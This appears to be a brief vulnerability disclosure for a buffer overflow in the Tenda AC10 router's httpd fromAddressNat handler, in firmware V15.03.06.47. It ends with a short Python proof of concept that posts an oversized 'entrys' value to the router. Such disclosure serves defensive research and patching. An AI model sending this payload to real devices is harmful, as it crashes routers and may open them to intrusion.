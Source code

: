 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromAddressNat

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](8.png)

get value from entrys ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/fromAddressNat"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'entrys': payload})
``` 

